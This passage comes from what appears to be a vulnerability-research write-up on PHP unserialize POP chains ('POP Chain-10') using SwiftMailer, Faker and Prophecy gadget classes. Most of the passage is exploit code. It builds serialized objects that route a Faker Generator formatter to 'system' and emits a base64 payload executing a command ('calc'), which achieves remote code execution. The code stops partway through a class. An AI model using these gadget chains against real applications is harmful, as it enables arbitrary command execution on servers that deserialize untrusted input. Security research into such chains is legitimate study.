 ```php
    class Swift_Mime_SimpleMimeEntity {
        private $headers;
        public function __construct($payload) {
            $this->headers = new ValidGenerator($payload);
        }
    }
    class Swift_KeyCache_DiskKeyCache {
        private $path;
        private $keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
        public function __construct($payload) {
            $this->path = new Swift_Mime_SimpleMimeEntity($payload);
        }
    }
    echo base64_encode(serialize(new Swift_KeyCa
che_DiskKeyCache("calc")));
}
?>
```
### POP chain utilization flow chart

![undefined](https://p3.ssl.qhimg.com/t01ef5842b0f04120d0.png "undefined")

## POP Chain-10
The starting point is the same as `POP chain-8`. Starting from `__toString()`, follow up on the `__toString()` method in `src/Prophecy/Argument/Token/ObjectStateToken.php`. Here `$this->util` and `$this->value` are both controllable.

![undefined](https://p0.ssl.qhimg.com/t01c53ae21f69eebfb4.png "undefined")

Then, use the `__call()` trigger method in the second half of `POP chain-2` to perform command execution operations to achieve RCE

### exp
```php
<?php
namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct() {
            $this->formatters = ['stringify' => "system"];
        }
    }
}

namespace Prophecy\Argument\Token {
    use Faker\Generator;
    class ObjectStateToken {
        private $name;
        private $value;
        private $util;
        public function __construct($payload) {
            $this->name = "H3rmesk1t";
            $this->util = new Generator();;
            $this->value = $payload;
        }
    }
}

namespace {
    use Prophecy\Argument\Token\ObjectStateToken;
    class Swift_KeyCache_DiskKeyCache {
        private $path;
```
